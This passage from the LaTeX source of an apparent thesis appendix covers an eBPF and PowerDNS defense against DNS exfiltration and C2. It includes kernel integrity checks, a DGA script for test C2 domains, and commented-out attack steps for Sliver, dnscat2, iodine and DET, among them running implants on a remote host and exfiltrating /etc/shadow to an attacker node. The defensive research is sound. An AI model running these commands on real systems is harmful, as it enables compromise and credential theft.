    bpf_probe_read_kernel(combined_buf->data + insn_len, orig_data->sig_len, orig_data->sig);
    // Create dynptrs for PKCS7 verification
    // dynptrs work similar to kptr but allowing to point to buffer location storing large amount of data as in case of signature for eBPF verifier requirements. 
    bpf_dynptr_from_mem(combined_buf->data, total_size, 0, &combined_data_ptr);
    bpf_dynptr_from_mem(mod_sig->sig, mod_sig_size, 0, &sig_ptr);
    bpf_dynptr_from_mem(orig_data->data, orig_data->data_len, 0, &orig_data_ptr);
    bpf_dynptr_from_mem(orig_data->sig, orig_data->sig_len, 0, &orig_sig_ptr);
    // Load asymmetric keys from session kernel keyring and verify signatures
    // all the kernel keyring access in bpf code is done via bpf_key a wrapper over kernel core key structure
    trusted_key = load_keyring();
    bpf_verify_pkcs7_signature(&orig_data_ptr, &orig_sig_ptr, trusted_key);
    bpf_verify_pkcs7_signature(&combined_data_ptr, &sig_ptr, trusted_key);
}
\end{lstlisting}
}

\subsection{Protecting SKB Netflow introspection and eavesdropping}
In active mode, the agent enforces advanced security directly in the kernel using a TC-attached eBPF program bound to the veth bridge that manages all network namespaces created by the agent. To prevent malicious processes from analyzing live traffic redirection patterns, an additional eBPF map, \texttt{skb\_netflow\_integrity\_verify\_map}, is used as explained in \hyperref[sec:alg2]{Algorithm 2}. The core eBPF program assigns a unique SKB mark to each redirected netflow packet, enabling integrity verification at the receiving bridge interface. This bridge, monitored by the eBPF agent in userspace, receives the redirected traffic for further analysis of suspicious behavior.
An additional ingress TC eBPF program is attached to the bridge interface. Inspect incoming SKBs to verify that the expected SKB mark is present, confirming that the packet was redirected from the core TC program on a physical netdev and not injected from any untrusted source. This enhanced security design ensures strong SKB integrity and prevents malicious sniffing or brute-force inference of live redirection patterns, effectively enforcing traffic validation across both kernel and userspace components. \hyperref[sec:alg7]{Algorithm 7} explains the algorithm integrity verification check on the SKB attached to the TC ingress on the bridge.

\begin{algorithm}[H]
\label{sec:alg7}
\caption{SKB Integrity Verification and Secure Redirection in \textbf{Active} Mode}
\label{sec:alg_active_mode_integrity}
\SetKwInOut{Input}{Input}
\SetKwInOut{Output}{Output}

\small
\setstretch{0.9}

\Input{%
  \texttt{skb} (socket buffer), \\
  eBPF maps: \\
  \quad \texttt{skb\_netflow\_integrity\_verify\_map}
}
\Output{%
  TC\_ACT\_OK \\ 
  TC\_ACT\_SHOT 
}

Fetch \texttt{skb\_mark\_integrity\_mark} from \texttt{skb\_netflow\_integrity\_verify\_map} with:
\begin{itemize}[nosep]
    \item Key: \texttt{0xFFEF} \tcp{unique key same used in core TC program over physical netdev}
\end{itemize}

% Step 2
\If{\texttt{skb\_mark\_integrity\_mark} $\neq$ \texttt{skb->mark}}{
    \tcp{This is a tampered redirected packet, or sniffed packet and did not originate from the main TC egress program}
    \Return \texttt{TC\_ACT\_SHOT}\;
}

\Return TC\_ACT\_OK;\
\end{algorithm}



% \subsection{Instructions for compiling and deploying the eBPF agent at the endpoint}
% The repository has individual build targets for building and deploying the agent, as well as README in root for build instructions. The steps to build and deploy the agent over all the nodes in the data plane are explained below; however, please ensure the required distributed infrastructure (DNS server, Kafka brokers) are healthy and discoverable.

% {\footnotesize
% \begin{lstlisting}[language=bash, 
%     caption={Installation steps for eBPF agent at endpoint in data plane}, 
%     label={lst:install-steps-dp},
%     aboveskip=0.5em, 
%     belowskip=0.5em
% ]
% # Clone the repository
% git clone https://github.com/Synarcs/DNSObelisk
% cd DNSObelisk
% # Install dependencies
% sudo apt update 
% # install all the kernel headers, libbpf Go compiler other kernel packages and userspace packages.
% make build-dep-agent 
% # Compile the agent binary 
% make build 
% # Start prometheus node-exporters at endpoint for endpoint resource monitoring 
% make node-metrics
% # modify the agent config to point the nodeIP's running prometheus metric server, kafka brokers, grafana visualization server (node_agent/config.yaml).
% # start the agent
% make run_node_agent &
% # verify agent injected eBPF kernel programs over TC Qdisc)
% tc qdisc show dev eth0 # (verify CLSACT QDISC attached to all netdev's and bridge interfaces).
% # onnx inference unix IPC mount paths 
% sudo lsof /run/dnsobelisk/onnx-inference-in.sock  
% sudo lsof /run/dnsobelisk/onnx-inference-out.sock
% # finally verify all loaded eBPF kernel programs 
% # all eBPF programs start with exfil_sec*, the surrounding program varies based on number of netdev's
% # there must be program named classify attached to physical netdev.
% sudo bpftool prog show  
% sudo bpftool map show
% # dump internals of the eBPF map in the kernel managed vy the security framework 
% sudo bpftool map dump id <map_id>
% \end{lstlisting}
% }
% % \hyperref[fig:loc-1]{Figure 7.5} details total lines of code and 


% \begin{figure}[H]
%     \centering
%     \includegraphics[width=0.8\linewidth]{UWThesis/images/code/Loc/data plane_loc.png}
%     \caption{Lines of Code for eBPF agent in data plane}
%     \label{fig:loc-1}
% \end{figure}

% \section{Appendix B}
% This section focuses on providing additional details about the control plane component of the security framework. 

% \subsection{Instructions for compiling and starting the control plane server}
% In order to start the control plane server on controller nodes, ensure the DNS server, Kafka brokers are healthy, and that the GPSQL storage back-end used by the PowerDNS server is reachable. Below are the steps to start the control server on the controller nodes.

% {\footnotesize
% \begin{lstlisting}[language=bash, 
%     caption={Installation steps for compiling and running controller server in control plane}, 
%     label={lst:install-steps-control-plane},
%     aboveskip=0.5em, 
%     belowskip=0.5em
% ]
% # Clone the repository
% git clone https://github.com/Synarcs/DNSObelisk
% cd DNSObelisk
% # Install dependencies
% sudo apt update && sudo apt-get install build-essential 
% make build-dep-controller 
% # Build the controller JAR
% make build-controller 
% # Start prometheus node-exporters at endpoint for endpoint resource monitoring 
% make node-metrics
% # modify the Java Spring PowerDNS backend config, spring server and Kafka broker connection config to point to correct endpoints
% # controller/src/main/application.yml,  controller/src/main/config.yaml
% # start the controller server
% make run-controller
% # verify controller running on configured port
% curl --head -X GET $(IP):$(PORT)/version 
% \end{lstlisting}
% }


% \begin{figure}[H]
%     \centering
%     
\includegraphics[width=0.8\linewidth]{UWThesis/images/code/Loc/controlplane_loc.png}
%     \caption{Lines of Code across Control Plane}
%     \label{fig:loc-2}
% \end{figure}

% \section{Appendix C}
% \begin{figure}[H]
%     \centering
%     \begin{minipage}{0.48\textwidth}
%         \centering
%         
\includegraphics[height=5cm]{UWThesis/images/code/dga_alg.png}
%         \caption*{(a) DGA algorithm over PowerDNS authoritative server}
%     \end{minipage}
%     \hfill
%     \begin{minipage}{0.48\textwidth}
%         \centering
%         
\includegraphics[height=5cm]{UWThesis/images/code/forward-zone_file.png}
%         \caption*{(b) DGA PDNS Recursor Zone forward file}
%     \end{minipage}
%     \caption{Illustration of DGA detection and configuration in PowerDNS}
%     \label{fig:loc-3}
% \end{figure}

\section{Appendix B}
This section provides additional internal details about Lua interceptor to filter malicious DNS over TCP on DNS server and DGA used to generate domains in malicious C2 and tunneling activities.

% \subsection{Instructions for configuring Kafka Brokers, and PowerDNS infrastructure}
% The steps to configure the Kafka broker and PowerDNS DNS server can vary depending on the infrastructure requirements. However, it is recommended to follow the official PowerDNS documentation for setting up the authoritative server with a GPSQL backend and PowerDNS Recursor. Similarly, Kafka brokers can be deployed using Docker, on bare metal, or within a Kubernetes cluster, exposed via a Kubernetes Gateway, across either public cloud platforms or on-premises infrastructure.


\subsection{PowerDNS TCP Lua interceptor}
\hyperref[sec:alg8]{Algorithm 8} details the algorithm implemented in PowerDNS Recrusor as an interceptor.

% alg 7
\begin{algorithm}[H]
\caption{PowerDNS Malicious DNS over TCP filtering Query Interceptor}
\label{sec:alg8}
$qname \gets dq.qname.toString()$\;

\small % Reduce font size for the entire algorithm
\setstretch{0.9} % Reduce line spacing for more compactness

\If{$dq.isTcp$}{
    $result \gets \text{extractFeaturesAndGetremoteInference}(qname)$\;
    \If{$\text{result}[\texttt{"threat\_type"}]$}{
        insertMaliciousDomains($qname$)\;
        $dq.rcode \gets \texttt{NXDOMAIN}$\;
        \Return \textbf{true}\;
    }
}
\If{$sf\_blacklist.\text{check}(\text{getSLD}(qname))$}{
    $dq.rcode \gets \texttt{NXDOMAIN}$\;
    \Return \textbf{true}\;
}
\If{$sf\_blacklist.\text{check}(\text{getSLD}(qname))$}{
    $dq.rcode \gets \texttt{NXDOMAIN}$\;
    \Return \textbf{true}\;
}
\Return \textbf{false}\;
\end{algorithm}



\subsection{Malicious domain generation}
To carry out advanced DNS C2 attacks or tunneling with open-source C2 tools, a DNS server configured with custom DNS zones (SOA) is required. These zones must include NS, A, AAAA, and glue records pointing to the malicious C2 server’s IP. In this framework, PowerDNS serves as the DNS infrastructure that supports such attacks. A custom script simulates a sample DGA by generating random SLDs, selecting random top-level domains (TLDs), and adding a third label identifying the C2 tool. The script also generates PowerDNS recursor forwarder configurations to redirect specific queries to a custom authoritative PowerDNS server and creates the necessary zone files using pdnsutil. By DNS design, each label requires a dedicated zone file with an NS record delegating the next label, enabling hierarchical resolution through glue records. Currently, the DGA only mutates domain names and does not implement IP (L3) address mutations, such as multiple A/AAAA records for DNS-based load balancing across C2 nodes. This extension is possible with additional infrastructure. Despite the lack of L3 mutation, the framework controller remains effective by enforcing dynamic domain blacklists and applying in-kernel network policies for cross-protocol correlation, blocking data exfiltration to dynamically generated domains and IPs. In particular, most real-world advanced C2 and multiplayer frameworks do not rely on forwarding DNS queries through separate DNS servers. Instead, implants communicate directly with C2 servers that run their own DNS service on standard or random UDP ports. For example, Sliver forces DNS servers to forward all queries directly to the C2 DNS server, eliminating intermediate DNS hops. The DGA implementation details are explained below.


\vspace{-0.5em}
{\footnotesize
\begin{lstlisting}[language=Python, 
    caption={Domain Generation Algorithm}, 
    label={lst:dga},
    aboveskip=0.5em,
    belowskip=0.5em
]
# generate number of malicious C2 server domains and add create zones, child zones NS links inside DNS server
# all the attacker tools to use 
# this attacker tool also generate the third label of C2 domain
exfil_tools: List[str] = ['dnscat', 'sliver', 'iodine', 'det']
# get the random TLD
def gen_randomTLD() -> str:
    return random.choice(['live','com','de','io','se','bld', 'val', 'def', 'head'])
def DGA_MASS_DOMAINS_GEN(args):
        r = RandomWord()
        dga = gen_c2_exfil_domains(tldDomains=[base64.b64encode(r.word()).lower() + "." + gen_randomTLD()
                                       for _ in range(1 << int(args.count))], 
                            c2_tool_domains=exfil_tools)
        ff = open(DGA_FILE, 'w', encoding='utf-8')
        ff.write('\n'.join(dga))
        append_zone_data_in_zoneFiles(dga) # create zone and child zones for PowerDNS Authoritative zone
        gen_exil_forward_zones_file(dga) # generate the forward zone file for PowerDNS Recursor
\end{lstlisting}
}

\end{document}


% \subsection{Instructions to implement DNS Data exfiltration attacks on data plane}
% The tools currently focused and fully evaluated are among the highest rated in the C2 matrix, supporting the most advanced forms of command and control operations, as well as various types of data exfiltration. Each tool and the corresponding steps to carry out the attacks are explained below. Note that once the DGA algorithm generates a large number of domains resolving to the attacker’s node IP, any of these domains can be selected to initiate the use of these tools.

% \subsubsection{Sliver}
% Sliver being the highest reputed adversary emulation framework developed by BishopFox for advanced penetration testing, the official documentation provides detailed steps on \href{https://github.com/BishopFox/sliver/blob/master/README.md}{Github} to clone and build the sliver C2 framework.
% \begin{lstlisting}[language=bash,caption={Steps to use Sliver for DNS C2},label={lst:sliver-steps}]
% # 1. Start Sliver C2 server on attacker node
% sliver-server
% # 2. Connect to Sliver client console from same node
% sliver-client
% # 3. Start the DNS Server job 
% job -d <c2_domain>. 
% # 3. Generate implant binary for session based (less stealthy generate more DNS traffic during C2 attacks)
% generate --dns <c2_domain> --debug --os linux --arch amd64 --save /tmp/implant 
% # 3. Generate implant binary for session based (less stealthy generate more DNS traffic during C2 attacks)
% generate --dns <c2_domain> --poll-timeout <beacon_interval> --debug --os linux --arch amd64 --save /tmp/implant_beacon 
% # 4. Transfer implant to any host in data plane
% scp /tmp/implant user@remote:/tmp/
% # 5. Run the implant on the remote host
% chmod +x /tmp/implant
% chmod +x /tmp/implant_beacon
% ./tmp/implant
% ./tmp/implant_beacon
% # 6 carry all the c2 attacks once system is compromised and beacon, session implant connected to c2 server
% # 6. Confirm session, beacons established in Sliver console
% sessions
% beacons
% # 7. connect sliver c2 server to start exploiting compromised sessions or beacons
% use <session_id>
% use <beacon_id>
% \end{lstlisting}


% \subsubsection{Dnscat2}
% Dnscat2 documentation for building the dnscat2 server and client can be found on official documentation page at \href{https://github.com/iagox86/dnscat2/blob/master/README.md}{Github}.
% \begin{lstlisting}[language=bash,caption={Steps to use Dnscat2 for Dns C2},label={lst:dnscat2-steps}]
% # 1. Start Dnscat2 C2 server on attacker node without port obfuscation, default DNS tunnelling over Port 53/udp 
% sudo ruby dnscat2.rb --dns 'host=<attacker_node>,domain=<c2_domain>'
% # 2. Connect to dnscat c2 server from compromised node in data plan
% ./dnscat --secret=<c2_connection_secret> <c2_domain>
% # 6 carry all the c2 attacks once compromised node is connected to C2 server.
% \end{lstlisting}

% \begin{lstlisting}[language=bash,caption={Steps to use Dnscat2 for Dns C2 with DNS port obfuscation layered random UDP port},label={lst:dnscat2-steps-port-obfuscation}]
% # 1. Start Dnscat2 C2 server on attacker node with port obfuscation, DNS protocol itself tunnelled over random UDP port with internally tunnelling any protocol payload
% sudo ruby dnscat2.rb --dns 'host=<attacker_node>,port=<dns_overlay_udp_port>,domain=<c2_domain>'
% # 2. Connect to dnscat c2 server from compromised node in data plan
% ./dnscat --dns server=<attacker_node>=<dns_overlay_udp_port>,domain=dnscat.strive.io --secret=<c2_session_secret>
% # 6 carry all the c2 attacks once compromised node is connected to C2 server.
% \end{lstlisting}


% \subsubsection{Iodine}
% Iodine documentation for building the Iodine tunnel server server and client can be found on official documentation page at \href{https://github.com/yarrick/iodine}{Github}
% \begin{lstlisting}[language=bash,caption={Steps to use Iodine for Dns tunnelling using kernel encapsulation POINTTOPOINT TUN/TAP links},label={lst:iodine-steps}]
% # 1. Start iodine tunneling server 
% sudo iodined -f -P <password> <TUN/TAP_overlay_CIDR> <tunnel_domain>
% # 2. Verify the required TUN/TAP pointtopoint netdev link created, defaults to dns0 
% ip addr show dev dns0 
% # 3. On compromised node in data plane start the iodine client 
% sudo iodine -P <password> -f  -r <tunnel_server> <tunnel_domain>
% # 4 Verify the required TUN/TAP pointtopoint netdev link created in CIDR range default to <TUN/TAP_overlay_CIDR>/24
% ip addr show dev dns0
% # Tunnel any protocol payload through the compromised node encpasulated traffic passed through PPP TUN/TAP links on both systems.
% \end{lstlisting}

% \subsubsection{DET}
% DET documentation for building the Iodine Tunnel Server Server and Client can be found on the official documentation page at \href{https://github.com/sensepost/DET}{Github}
% \begin{lstlisting}[language=bash,caption={Steps to use DET for raw DNS exfiltration},label={lst:det-steps}]
% # 1. Configure the DNS module in config.json in DET for raw exfiltration, with any domain generated via DGA, and IP pointing to the DNS server.
% # 2. Start the DET server
% sudo python det.py -L -c ./config.json -p dns 
% # 3. Configure the DNS module in config.json in DET for raw exfiltration, with any domain generated via DGA, and IP pointing to the DNS server.
% python det.py -c ./config.json -f /etc/shadow
% 3 4. restart the script and continue to exfiltrate files via raw DNS exfiltration. 
% \end{lstlisting}

% Finally, if the eBPF agent, along with all injected programs in the kernel, is active at the data plane endpoint, any requests, responses, file exfiltration attempts, or tunneled data will be terminated instantaneously. All tools initiating the exfiltration will be forcefully killed, with detailed metrics exported to identify the origin of the attack can be visualized with the Grafana server scrapping Prometheus metrics from data plane nodes, and if control center is deployed to visualize kafka topics in brokers, all the events published by data plane nodes and controller server can be visualized. Additionally, all domains involved will be dynamically blacklisted, rendering them useless for further exploitation. At the same time, communication between the compromised node in the data plane and the C2 server will be severed through in-kernel dynamic network policies.


% \begin{figure}[H]
%     \centering
%     
\includegraphics[width=0.8\linewidth]{UWThesis/images/code/Loc/infra_loc.png}
%     \caption{Lines of Code across Distributed Infrastructure}
%     \label{fig:loc-3}
% \end{figure}

